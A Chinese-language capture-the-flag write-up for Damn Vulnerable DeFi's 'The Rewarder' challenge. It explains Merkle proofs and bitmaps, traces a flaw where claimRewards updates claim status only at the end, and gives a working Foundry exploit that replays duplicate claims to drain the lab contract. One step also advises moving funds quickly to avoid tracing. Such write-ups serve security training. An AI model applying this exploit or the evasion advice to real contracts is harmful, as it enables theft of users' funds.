 ## 题目 [The Rewarder](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/the-rewarder)
一个智能合约正在分发 Damn Valuable Tokens（DVT）和 WETH 作为奖励。要领取这些奖励，用户必须证明自己在受益人名单中。不过，不用担心 gas 费用。这个合约已经过优化，可以在同一个交易中领取多个代币的奖励。  
Alice 已经领取了她的奖励，你也可以领取！不过，你发现这个合约中存在一个关键漏洞。你的任务是尽可能多地从这个分发合约中挽救资金，并将所有追回的资产转移到指定的回收账户。

## 前置知识
### Merkle Proofs
Merkle Proofs 是密码学和区块链技术中的一个基础概念，用于验证特定数据块是否属于一个更大的数据集。  
1. 结构：Merkle 树是一种二叉树，其中每个叶子节点是一个数据块的哈希值，而每个非叶子节点是其两个子节点的哈希值。
2. 根哈希：Merkle 树的根哈希位于树顶，代表整个数据集的完整性。
3. Merkle 证明：是从特定叶子节点到根节点的哈希路径。它允许验证特定数据块是否属于整个数据集，而不需要拥有整个数据集。
4. 效率：Merkle 证明的大小相对于叶子节点的数量是对数级的，因此在处理大型数据集时非常高效。
5. 应用：Merkle 证明广泛应用于加密货币中，用于高效验证交易，也用于分布式系统中的数据完整性检查。

### Bitmaps
Bitmaps 是一种紧凑的数据结构，用于表示一组布尔值。位图可以高效地跟踪状态（例如，某个事件是否已经发生）。   
1. 结构：位图是一个比特数组，每个位代表一个布尔值。
2. 效率：位图非常节省空间，因为每个布尔值只占用一位内存。
3. 操作：常见的操作包括设置位、清除位、切换位以及检查位是否已设置。
4. 性能：位操作通常非常快速。在以太坊智能合约中，位图通常用 uint256 值表示和处理。EVM 针对 256 位操作进行了优化，这使得 uint256 成为高效位图操作的理想选择。

## 合约分析
TheRewarderDistributor 合约利用 Merkle proofs 和 Bitmaps 实现高效的代币分发和领取。它允许代币分发者使用 Merkle 树结构来证明某个地址有权领取特定数量的代币，同时利用位图来记录哪些领取请求已经被处理。  
**结构体：**   
``` solidity
struct Distribution {
    uint256 remaining;
    uint256 nextBatchNumber;
    mapping(uint256 batchNumber => bytes32 root) roots;
    mapping(address claimer => mapping(uint256 word => uint256 bits)) claims;
}
```
- `Distribution`：用于管理每种代币的分发状态，包括剩余代币数量、批次号、Merkle 树根，以及已领取状态。
  - remaining：当前剩余的可分发代币数量。
  - nextBatchNumber：下一批次的编号，用于管理批次的顺序。
  - roots：用于存储每个批次对应的 Merkle 树根。
  - claims：用于追踪每个地址在不同批次中的领取状态。claims[address][word] 表示某个地址在特定 256-bit 位图中的领取状态。

``` solidity
struct Claim {
    uint256 batchNumber;
    uint256 amount;
    uint256 tokenIndex;
    bytes32[] proof;
}
```
- `Claim`：用于在 `claimRewards` 函数中传递领取请求的信息，包括批次号、领取金额、代币索引和 Merkle 证明。

**核心函数：**  
- `createDistribution(IERC20 token, bytes32 newRoot, uint256 amount)`：用于创建新的代币分发批次。分发批次通过一个给定的 Merkle 根（newRoot）和分发的总代币数量（amount）来定义。
- `claimRewards(Claim[] memory inputClaims, IERC20[] memory inputTokens)`：允许用户在一次调用中领取多个代币奖励。用户需要提供多个 Claim 对象（包括批次号、领取金额、代币索引和 Merkle 证明）以及相应的代币列表。合约通过验证这些证明来确认用户的领取请求，并使用 _setClaimed 函数记录领取状态，最后将代币转账给用户。
- `_setClaimed(IERC20 token, uint256 amount, uint256 wordPosition, uint256 newBits)`：用于标记领取请求为已处理，并更新剩余的代币数量。它通过位运算来更新位图中的领取状态。

## 漏洞分析
该漏洞出现在 `claimRewards` 函数的实现中，当处理多个领取请求的时候，只会在最后一次循环中更新存储中的领取状态。如果在正常请求中，每个领取状态的改变存放在 `bitsSet` 中，在最后一起更新到存储中是可以的。但是当在单次交易中提交多个相同的领取请求时，该漏洞便会被利用。

## 题解
攻击者利用 `claimRewards` 函数，通过重复提交同一个有效的领取请求，从而获得多次奖励分配。  

攻击步骤：   
1. 找到有效的未领取奖励：首先需要找到一个与攻击者地址相关的、尚未领取的有效奖励。
2. 创建重复的领取请求数组：构建一个包含多个相同领取请求的数组，每个请求都引用相同的有效奖励。
3. 调用 claimRewards 函数：使用准备好的相同领取请求数组调用 claimRewards 函数。这会导致合约为每个请求分发奖励，但只在最后一次请求时才标记为已领取。
4. 立即转移资金：在成功利用漏洞并收到多次奖励后，攻击者应立即将这些资金提取或转移到一个单独的地址，以避免被追踪或资金被追回。

测试代码：  
``` solidity
function test_theRewarder() public checkSolvedByPlayer {
    console.log("playerAddr: ", player); // 0x44E97aF4418b7a17AABD8090bEA0A471a366305C
    uint256 PLAYER_DVT_CLAIM_AMOUNT = 11524763827831882;
    uint256 PLAYER_WETH_CLAIM_AMOUNT = 1171088749244340;

    bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
    bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

    uint256 dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / PLAYER_DVT_CLAIM_AMOUNT;
    uint256 wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / PLAYER_WETH_CLAIM_AMOUNT;
    uint256 totalTxCount = dvtTxCount + wethTxCount;

    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));

    Claim[] memory claims = new Claim[](totalTxCount);

    for (uint256 i = 0; i < totalTxCount; i++) {
        if (i < dvtTxCount) {
            claims[i] = Claim({
                batchNumber: 0,
                amount: PLAYER_DVT_CLAIM_AMOUNT,
                tokenIndex: 0,
                proof: merkle.getProof(dvtLeaves, 188) // player's address is at index 188
            });
        } else {
            claims[i] = Claim({
                batchNumber: 0,
                amount: PLAYER_WETH_CLAIM_AMOUNT,
                tokenIndex: 1,
                proof: merkle.getProof(wethLeaves, 188)
            });
        }
    }

    distributor.claimRewards({
        inputClaims: claims,
        inputTokens: tokensToClaim
    });

    dvt.transfer(recovery, dvt.balanceOf(player));
    weth.transfer(recovery, weth.balanceOf(player));
}
```
运行测试：  
```
forge test --mp test/the-rewarder/TheRewarder.t.sol -vv
```
运行结果：
```
Ran 2 tests for test/the-rewarder/TheRewarder.t.sol:TheRewarderChallenge
[PASS] test_assertInitialState() (gas: 61631)
[PASS] test_theRewarder() (gas: 1011600793)
Logs:
  playerAddr:  0x44E97aF4418b7a17AABD8090bEA0A471a366305C

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.66s (2.64s CPU time)
```




